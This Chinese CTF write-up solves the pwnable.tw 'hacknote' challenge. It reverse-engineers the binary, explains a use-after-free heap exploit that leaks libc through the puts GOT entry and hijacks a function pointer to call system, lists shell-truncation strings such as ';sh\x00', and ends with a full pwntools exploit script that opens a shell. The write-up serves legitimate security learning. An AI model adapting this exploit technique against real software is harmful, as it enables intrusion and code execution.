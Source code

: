 ```yaml
---
title: pwnable.tw - hacknote の Write-Up
date: 2020-07-09 14:31:56
categories:
- WriteUPs
- pwnable.tw
tags:
- PWN
- Heap
---
```

## Introduction

[pwnable.tw](https://pwnable.tw/)是一个pwn题刷题网站，里面收集了很多不错的pwn题。hacknote是一道比较简单的堆溢出的题目，刚好适合开始接触堆溢出不久的rookie，能够帮助理解和掌握有关堆溢出利用相关知识。

<!-- more -->

## Step 1

首先运行程序：

![](/img/Hacknote/Hacknote1.png)

看起来是一个日记本程序，可以添加、删除、打印日记，标准的堆溢出题目。

checksec：

![](/img/Hacknote/Hacknote2.png)

32位程序，栈上的保护还是比较齐全的。

## Step 2

将程序丢到hopper中，首先看一下主函数：

![](/img/Hacknote/Hacknote3.png)

函数逻辑还是比较简单的，首先是菜单的显示：

![](/img/Hacknote/Hacknote4.png)

然后是对各个功能的处理函数，首先是功能1添加note：

![](/img/Hacknote/Hacknote5.png)

Add函数首先会判断目前note的数量，如果超过5，那么会显示’Full’然后退出。如果没有超过5会从0开始遍历，直到找到一个空的项，申请一个8字节的堆块。如果分配错误，返回’Alloca Error’并退出，分配成功则将储存一个指针指向0x804862b，另一个指针指向note的内容，而0x804862b位置是一个输出note内容的函数sub_804862b：

![](/img/Hacknote/Hacknote6.png)

之后根据读入的size大小申请一个堆块，再读入字符串为内容，最后将note的计数加1。

然后是对功能2删除note的处理函数：

![](/img/Hacknote/Hacknote7.png)

Delete函数相对就比较简单了，判断一下要读入的要删除note的编号是否符合范围要求，再判断一下编号对应的note有没有，如果没有就返回‘Out of bound!’，如果有就free对应的note。

接着是功能3打印note：

![](/img/Hacknote/Hacknote8.png)

Print函数和Delete函数很像，只是最后是调用Add函数中的sub_804862b函数输出指定的编号对应的note的内容。

最后是退出程序：

![](/img/Hacknote/Hacknote9.png)

程序的逻辑比较简单，通过逆向的伪代码基本已经了解透彻了。

## Step 3

程序逻辑流程明白之后，就是要在其中找漏洞。这一题的漏洞点在于Delete函数释放指针之后没有将其值清空，这样会出现Use After Free和Double Free漏洞。关于这两个漏洞的原理和利用网上资料比较多，也可以参考我之前的文章[堆溢出漏洞小结](https://coldwave96.github.io/2020/07/07/HeapOverflow/)。

首先要明确利用漏洞需要获得什么结果：

* 需要知道程序运行时system函数实际地址；

* 获取诸如’/bin/sh’的字符串的位置；

* 控制程序的运行流。

下面从漏洞利用的角度再来细细品一下这个程序。

每个note生成时程序会申请8字节的堆块来存放该note的指向sub_804862b函数的指针和指向内容的指针。然后程序会根据输入的size大小来申请合适大小的堆块用来存储note的内容。

显然note的结构是一个fastbin chunk，大小是16字节，至于为什么是16字节可能需要先去了解下堆的机制，可以参考下[关于堆的bin结构的理解](https://coldwave96.github.io/2020/07/02/Heap-bin/)和[堆溢出入门基础知识](https://coldwave96.github.io/2020/06/30/Heap/)。

我们的目的是控制程序的运行流去执行system等函数，那么我们可以考虑修改某个note的指向sub_804862b函数的指针，将其修改为我们想要执行的函数地址。这样当执行print函数的功能时程序就回去执行我们想要执行的函数。

既然我们需要修改某个note的指针，而程序中只有唯一的方法可以赋值，所以我们必须在Add note中利用写入note内容的功能来进行覆盖。

具体思路如下：

* 申请note0，size为20（大小与note大小所在的bin不一样就可以）；

* 申请note1，size为20；

* Delete note0；

* Delete note1；

* 申请note2， size为8（此时根据fastbin的LIFO策略，其实note2分配的是note1，而note2的size则是对应的note0）；

* 这时我们输入的note2的内容其实就覆盖了note0的指向sub_804862b函数的指针和指向note0的内容的指针；

* 所以当Print note0的时候，程序就会去调用覆盖的函数。

这样我们就解决了控制程序运行流的问题。

接下来就是获取程序运行时system函数在内存中的实际地址。可以看到题目给了libc文件，那么可以像栈溢出那样泄露libc基址加上offset获得system函数的地址。

具体思路如下：

* 将note0的指向内容的指针覆盖为puts函数在got表的地址；

* Print note0就可以打印出read的实际地址；

* 利用system_addr - system_libc = puts_addr - puts_libc计算出system_addr；

最后是system函数的参数，由于一共只有8字节，除去system函数的地址只有4字节，所以选择写入字符串’sh’或者’$0’。

但是这里还有个小问题，Print函数是将note0的8字节结构的地址当作参数传递给system函数的，所以前半部分的system函数地址也会被当作参数导致system函数执行时报错。

所以需要进行system参数截断，可以使用如下的方式：

* ‘;sh\x00’ or ‘;$0\x00'

* ‘&&sh’ or ‘&&$0'

* ‘||sh’ or ‘||$0'

到这里这题的解题思路就梳理完毕了，之后就是EXP的编写了。

## Step 4

直接给出EXP脚本：

```Python
from pwn import *

sh = remote('chall.pwnable.tw', 10102)
# sh = process('./hacknote')
elf = ELF('./hacknote')

libc = ELF('./libc_32.so.6')

def add_note(size, content):
    sh.recvuntil('Your choice :')
    sh.sendline('1')
    sh.recvuntil('Note size :')
    sh.sendline(str(size))
    sh.recvuntil('Content :')
    sh.sendline(str(content))

def delete_note(index):
    sh.recvuntil('Your choice :')
    sh.sendline('2')
    sh.recvuntil('Index :')
    sh.sendline(str(index))

def print_note(index):
    sh.recvuntil('Your choice :')
    sh.sendline('3')
    sh.recvuntil('Index :')
    sh.sendline(str(index))

print_puts = 0x0804862b
puts_got = elf.got['puts']

add_note(20, 'aaaa')
add_note(20, 'aaaa')
delete_note(0)
delete_note(1)

add_note(0x8, p32(print_puts) + p32(puts_got))
print_note(0)
puts_addr = u32(sh.recv(4))

puts_libc = libc.symbols['puts']
sys_libc = libc.symbols['system']
sys_addr = puts_addr - puts_libc + sys_libc

delete_note(2)
add_note(0x8, p32(sys_addr) + ';sh\x00')
print_note(0)

sh.interactive()
sh.close()
```

脚本运行结果：

![](/img/Hacknote/Hacknote10.png)